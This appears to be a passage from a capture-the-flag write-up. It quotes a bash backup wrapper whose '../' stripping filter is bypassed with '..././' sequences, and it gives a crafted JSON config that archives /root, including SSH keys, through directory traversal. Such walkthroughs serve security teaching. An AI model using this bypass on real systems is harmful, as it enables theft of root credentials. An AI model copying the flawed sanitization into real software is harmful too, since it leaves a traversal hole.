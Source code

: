 #!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 &lt;task.json&gt;"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/") #only allows backups from /var and /home

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file") #code preventing directory traversal

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
</pre>

<p>Examining the code preventing directory traversal, we can see that it is not very secure. It searches for "../" in the path and replaces it with "" (see gsub function). Therefore, we can replace "../" by "..././ as this becomes "../" after sanitation. Thus, if we type the this in our json file, we can bypass this and do a directory traversal backing up the root directory:</p>
<pre>
{
    "destination": "/home/martin/backups/",
    "multiprocessing": true,
    "verbose_log": false,
    "directories_to_archive": [
        "/home/..././..././..././root"
    ],
    "exclude": [
    ]
}
</pre>
<p>Note, I also removed to exclude argument as we want to backup everything (also hidden files like ssh keys for example).</p>
